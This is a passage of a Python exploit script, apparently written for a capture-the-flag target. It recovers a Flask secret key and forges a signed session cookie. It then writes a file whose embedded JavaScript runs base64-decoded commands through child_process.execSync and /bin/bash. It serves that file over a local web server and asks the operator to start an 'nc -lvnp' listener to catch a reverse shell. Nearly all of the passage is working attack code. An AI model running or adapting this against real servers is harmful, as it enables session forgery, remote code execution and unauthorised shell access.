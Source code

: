 ```python
        except BadSignature:
            continue
        log.success("Secret key : {}".format(secret))
        return secret

# craft target cookie
def create_cookie(secret_key):
    time.sleep(1)
    p = log.progress('Creating new cookie with target payload')
    p.status(json.dumps(target_session_payload))
    try:
        serializer =  URLSafeTimedSerializer(
                            secret_key=secret_key, 
                            salt='cookie-session', 
                            serializer=TaggedJSONSerializer(), 
                            signer=TimestampSigner, 
                            signer_kwargs={
                                'key_derivation':'hmac',
                                'digest_method': hashlib.sha1
                                }
                            ).dumps(target_session_payload)
        time.sleep(1)
        log.success('Cookie : {}'.format(serializer))
        return serializer
    except Exception as e:
        p.failure('{} ocurred'.format(e))

# create malicious file
def create_file(command):
    try:
        with open(file_name, 'w') as file:
            b64_command = 'echo "{}" | /usr/bin/base64 -w 0'.format(command)
            payload = subprocess.run(b64_command, capture_output=True, text=True, shell=True).stdout.strip('\n')
            file.write("""---js\n\n\t((require("child_process")).execSync("echo {} | /usr/bin/base64 -d | /bin/bash"))\n\n---""".format(payload))
    except Exception as e:
        print(e)
                                                                    
# get reverse shell
def get_reverse_shell(target_cookie):
    time.sleep(1)
    p = log.progress('Getting reverse shell')
    p.status('IP -> {}, PORT -> {}'.format(args.ip, args.port))
    try:
        # web server to share pwned file
        log.info('Openning port 8000 to share files: {}, {}, {}'.format(file_name, lib_name, shell_name))
        command = '/usr/bin/python3 -m http.server 8000'
        p1 = subprocess.Popen(shlex.split(command), stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
        time.sleep(1)
        # web server to receive shell
        log.info('Open the port {p} to receive the shell (e.g : nc -lvnp {p})'.format(p=args.port))
        input('Press ENTER to continue')
        time.sleep(2)
        # upload pwned file
        log.info('Uploading and executing malicious files')
        # create directory
        create_file(commands[0])
        s = requests.Session()
        headers = {'Content-Type':'application/x-www-form-urlencoded'}
        data = 'url=http://{}:8000/{}'.format(args.ip, file_name)
```